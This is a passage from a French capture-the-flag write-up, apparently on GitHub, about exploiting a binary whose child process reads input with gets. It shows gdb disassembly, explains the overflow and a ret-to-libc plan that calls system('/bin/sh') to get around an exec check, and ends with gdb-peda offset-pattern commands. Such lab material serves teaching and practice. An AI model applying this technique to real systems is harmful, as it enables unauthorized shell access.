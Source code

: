   ```shell
      # if ret_ptrace != 11 goto wait line
      0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
      0x080487f0 <+296>:	jne    0x8048768 <main+160>

      # puts("no exec() for you")
      0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
      0x080487fd <+309>:	call   0x8048500 <puts@plt>

      # kill(pid, 9)
      0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
      0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
      0x08048811 <+329>:	mov    DWORD PTR [esp],eax
      0x08048814 <+332>:	call   0x8048520 <kill@plt>
      0x08048819 <+337>:	nop

      # return 0
      0x0804881a <+338>:	mov    eax,0x0
      0x0804881f <+343>:	lea    esp,[ebp-0x8]
      0x08048822 <+346>:	pop    ebx
      0x08048823 <+347>:	pop    edi
      0x08048824 <+348>:	pop    ebp
      0x08048825 <+349>:	ret
      End of assembler dump.
  ```

## 2: Comportement
> Une fois recomposé, on comprend que le programme lance un subprocess.\
> Le subprocess va prendre un input avec gets (non protégé, buffer overfloooow).\
> Le parent va attendre que l'enfant aie terminé et return 0.


## 3: Exploit

### A: Explication

* On va tenter un buffer overflow de l'EIP l'enfant.
* On va avoir besoin pour ca d'une nouvelle gdb command.
* De plus, il y a un check sur execv: on ne pourra pas lancer un shellcode classique.
* On a donc 2 choix:
* ... prendre un shellcode qui ne fait pas d'execv et y accéder via une variable d'env
* ... rediriger vers la fonction de la libc system et lui passer la string "/bin/sh" (retour à la libc).\
* Vu qu'on n'a pas encore fait la deuxième c'est celle là qu'on va choisir.

### B: Creation de l'exploit

* Il nous faut donc: notre offset, l'addresse de system, l'addresse de la string "/bin/sh"

```shell
  # Commande pour suivre le process enfant
  gdb-peda$ set follow-fork-mode child

  # On génère le pattern
  gdb-peda$ pattern create 200 pattern04
    Writing pattern of 200 chars to filename "pattern04"
  gdb-peda$ cat pattern04
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

  # On le met au moment de l'input
  gdb-peda$ run
    [New process 1735]
```